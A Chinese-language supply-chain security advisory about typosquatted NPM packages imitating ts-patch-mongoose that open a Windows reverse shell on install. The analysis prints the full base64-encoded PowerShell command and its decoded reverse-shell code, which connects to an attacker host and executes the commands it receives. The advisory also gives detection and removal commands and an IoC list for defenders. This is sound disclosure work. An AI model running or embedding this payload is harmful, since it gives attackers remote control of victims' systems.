





# 供应链投毒预警 | 恶意 NPM 包利用 Windows 反向 shell 后门攻击开发者 - 先知社区

供应链投毒预警 | 恶意 NPM 包利用 Windows 反向 shell 后门攻击开发者

- - -

**概述**

本周（2024 年 02 月 19 号），悬镜供应链安全情报中心在 NPM 官方仓库（[https://npmjs.com](https://npmjs.com/) ）中发现多起 NPM 组件包投毒事件。攻击者利用包名错误拼写方式 (typo-squatting) 在 NPM 仓库中连续发布 9 个不同版本的恶意包，试图通过仿冒合法组件（ts-patch-mongoose）来攻击潜在的 NodeJS 开发者。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229180243-ae6761b4-d6e9-1.png)

开发者一旦错误安装这些恶意组件包，则会自动触发执行恶意组件中的攻击代码，受害者系统将主动通过反向 shell（Reverse Shell）的方式和攻击者控制的服务器端口建立后门连接，最终导致开发者系统被攻击者远程控制。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229180306-bbd7c802-d6e9-1.png)

通过查询 NPM 官方下载接口可知这些恶意组件包最近一周总下载量约 700 次。此外考虑到国内主流 NPM 镜像源也同步托管这些恶意组件，实际受害者数量可能会更多。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229180326-c81271bc-d6e9-1.png)

**投毒分析**

攻击流程  
以 ts-patch-moongoose 投毒包为例：

攻击目标针对 Window 系统平台 NPM 开发者，恶意文件 mongoose.js 中调用 child\_process 模块执行经过 base64 编码后的 powershell 恶意命令。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229180338-cecf412e-d6e9-1.png)

```plain
powershell -ep bypass -e UwB0AGEAJwByAHQALQBQAHIAbwAnAGMAZQBzAHMAIAAkAFAAUwBIAE8ATQBFAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgAHsAJABjAGMANABiADMAZQAwADcAMAA2AGIAZQA0ADcAOAAwADkANQAyADMANQBiAGQAYgBjADUANAA3ADkAZgBkAGUAIAA9ACAATgBlAHcAJwAtAE8AYgBqAGUAJwBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJwA4ADQALgA3ADcALgA2ADkALgA2ADkAJwAsADQANAA0ADMAKQA7ACQANABiAGQAZgA3ADEANwAwADEAZQA0AGUANAA1AGEANAA4AGIAZAA2ADYAOQA3ADQAYQAzADYAZAAxAGYAZAA4ACAAPQAgACQAYwBjADQAYgAzAGUAMAA3ADAANgBiAGUANAA3ADgAMAA5ADUAMgAzADUAYgBkAGIAYwA1ADQANwA5AGYAZABlAC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgA3ADIAZABkADcAMABiADkAYgA1AGMANAA2ADMANQBiADQAMQAwAGMAMwBlAGQAYQAwADMAOQBkAGIAOQA4ACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkADQAYgBkAGYANwAxADcAMAAxAGUANABlADQANQBhADQAOABiAGQANgA2ADkANwA0AGEAMwA2AGQAMQBmAGQAOAAuAFIAZQBhAGQAKAAkAGIANwAyAGQAZAA3ADAAYgA5AGIANQBjADQANgAzADUAYgA0ADEAMABjADMAZQBkAGEAMAAzADkAZABiADkAOAAsACAAMAAsACAAJABiADcAMgBkAGQANwAwAGIAOQBiADUAYwA0ADYAMwA1AGIANAAxADAAYwAzAGUAZABhADAAMwA5AGQAYgA5ADgALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABmAGYAOAA4ADcAZAAwADkANQAzADUAZAA0ADYANAA4ADkANQA4ADIAZAA2ADcAZgAwADUAZQA3AGQANgAwAGYAIAA9ACAAKABOAGUAJwB3AC0ATwBiACcAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIANwAyAGQAZAA3ADAAYgA5AGIANQBjADQANgAzADUAYgA0ADEAMABjADMAZQBkAGEAMAAzADkAZABiADkAOAAsADAALAAgACQAaQApADsAJABlADkAZgAzADMAZQBlAGYAMwA3ADcANQA0ADgAZgBkAGIAOABlADIAMQAyAGEAYQBlAGMAZQBjADYAYgA0ADcAIAA9ACAAKABpAGUAeAAgACQAZgBmADgAOAA3AGQAMAA5ADUAMwA1AGQANAA2ADQAOAA5ADUAOAAyAGQANgA3AGYAMAA1AGUANwBkADYAMABmACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAMABlADcAYwBiADUAMwA3ADkANAA3AGEANAA5ADAANQBiADMANgBlADMANgBiADgAZQBmADIANQBmADkANQA1ACAAPQAgACQAZQA5AGYAMwAzAGUAZQBmADMANwA3ADUANAA4AGYAZABiADgAZQAyADEAMgBhAGEAZQBjAGUAYwA2AGIANAA3ACAAKwAgACcAUABTACAAJwAgACsAIAAoAHAAJwB3ACcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAJAA5ADgANgA4ADgANgBjADEAMAA1ADkAYwA0ADkANQBlAGIAYwAzADcAYQAyADgAZgBhADgANwAzADUANAAxADkAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkADAAZQA3AGMAYgA1ADMANwA5ADQANwBhADQAOQAwADUAYgAzADYAZQAzADYAYgA4AGUAZgAyADUAZgA5ADUANQApADsAJAA0AGIAZABmADcAMQA3ADAAMQBlADQAZQA0ADUAYQA0ADgAYgBkADYANgA5ADcANABhADMANgBkADEAZgBkADgALgBXAHIAaQB0AGUAKAAkADkAOAA2ADgAOAA2AGMAMQAwADUAOQBjADQAOQA1AGUAYgBjADMANwBhADIAOABmAGEAOAA3ADMANQA0ADEAOQAsADAALAAkADkAOAA2ADgAOAA2AGMAMQAwADUAOQBjADQAOQA1AGUAYgBjADMANwBhADIAOABmAGEAOAA3ADMANQA0ADEAOQAuAEwAZQBuAGcAdABoACkAOwAkADQAYgBkAGYANwAxADcAMAAxAGUANABlADQANQBhADQAOABiAGQANgA2ADkANwA0AGEAMwA2AGQAMQBmAGQAOAAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBjADQAYgAzAGUAMAA3ADAANgBiAGUANAA3ADgAMAA5ADUAMgAzADUAYgBkAGIAYwA1ADQANwA5AGYAZABlAC4AQwBsAG8AcwBlACgAKQB9ACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABIAGkAZABkAGUAbgA=
```

解码后的实际 powershell 代码如下所示：

```plain
Start-Process $PSHOME\powershell.exe -ArgumentList {$cc4b3e0706be478095235bdbc5479fde = New'-Obje'ct System.Net.Sockets.TCPClient('84.77.69.69',4443);$4bdf71701e4e45a48bd66974a36d1fd8 = $cc4b3e0706be478095235bdbc5479fde.GetStream();[byte[]]$b72dd70b9b5c4635b410c3eda039db98 = 0..65535|%{0};while(($i = $4bdf71701e4e45a48bd66974a36d1fd8.Read($b72dd70b9b5c4635b410c3eda039db98, 0, $b72dd70b9b5c4635b410c3eda039db98.Length)) -ne 0){;$ff887d09535d46489582d67f05e7d60f = (Ne'w-Ob'ject -TypeName System.Text.ASCIIEncoding).GetString($b72dd70b9b5c4635b410c3eda039db98,0, $i);$e9f33eef377548fdb8e212aaecec6b47 = (iex $ff887d09535d46489582d67f05e7d60f 2>&1 | Out-String );$0e7cb537947a4905b36e36b8ef25f955 = $e9f33eef377548fdb8e212aaecec6b47 + 'PS ' + (p'w'd).Path + '> ';$986886c1059c495ebc37a28fa8735419 = ([text.encoding]::ASCII).GetBytes($0e7cb537947a4905b36e36b8ef25f955);$4bdf71701e4e45a48bd66974a36d1fd8.Write($986886c1059c495ebc37a28fa8735419,0,$986886c1059c495ebc37a28fa8735419.Length);$4bdf71701e4e45a48bd66974a36d1fd8.Flush()};$cc4b3e0706be478095235bdbc5479fde.Close()} -WindowStyle Hidden
```

恶意 PowerShell 代码利用 System.Net.Sockets.TCPClient 接口将 windows 系统 cmd shell 反弹到攻击者控制的服务器端口 84.77.69.69:4443 上，从而达到对受害者系统进行远程 shell 后门控制的目的。

攻击复现

1.  模拟攻击者服务器 (OS: ubuntu-server IP: 84.77.69.69) 并监听 tcp 4443 端口
2.  模拟 NPM 开发者在 Windows 系统上安装 ts-patch-moongoose 组件
3.  NPM 开发者系统 cmd shell 成功反弹到攻击者服务器 4443 端口，攻击者可通过反向 shell 后门在开发者系统上远程执行任意系统命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229180504-025bf4ec-d6ea-1.png)

IoC 数据  
此次投毒组件包涉及的恶意文件和 IoC 数据如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229180525-0f2748b6-d6ea-1.png)

**排查方式**

开发者可在 NodeJS 项目根目录下通过以下命令快速排查是否误安装该恶意 NPM 组件包，

```plain
npm list ts-patch-moongoose
npm list ts-patch-moongoose -g
```

若命令运行结果显示已经安装该恶意组件，则需关闭系统网络并排查系统是否存在异常进程，同时可通过以下命令进行卸载恶意组件包。

```plain
npm remove ts-patch-moongoose
npm remove ts-patch-moongoose -g
```

此外，开发者也可使用 OpenSCA-cli，将受影响的组件包按如下示例保存为 db.json 文件（可参考总结中提到的组件包信息按格式增减），直接执行扫描命令（opensca-cli -db db.json -path ${project\_path}），即可快速获知您的项目是否受到投毒包影响。

```plain
[
  {
    "product": "ts-patch-moongoose",
    "version": "[1.0.0,1.0.0]||[2.0.0,2.0.0]",
    "language": "javascript",
    "id": "XMIRROR-MAL45-1E9AA373",
    "description": "恶意 NPM 组件利用反向 shell 后门攻击 Windows 系统 NPM 开发者。",
    "release_date": "2024-02-19"
  },
  {
    "product": "ts-patch-mongoos",
    "version": "[1.0.0,1.0.0]||[2.0.0,2.0.0]",
    "language": "javascript",
    "id": "XMIRROR-MAL45-6963D463",
    "description": "恶意 NPM 组件利用反向 shell 后门攻击 Windows 系统 NPM 开发者。",
    "release_date": "2024-02-19"
  },
  {
    "product": "ts-patch-mongose",
    "version": "[1.0.0,1.0.0]||[2.0.0,2.0.0]||[3.0.0,3.0.0]||[3.0.1,3.0.1]||[4.0.0,4.0.0]",
    "language": "javascript",
    "id": "XMIRROR-MAL45-60C73BA0",
    "description": "恶意 NPM 组件利用反向 shell 后门攻击 Windows 系统 NPM 开发者。",
    "release_date": "2024-02-19"
  }
]
```

悬镜供应链安全情报中心将持续监测全网主流开源软件仓库，对潜在风险的开源组件包进行动态跟踪和溯源，实现快速捕获开源组件投毒攻击事件并第一时间提供精准安全预警。
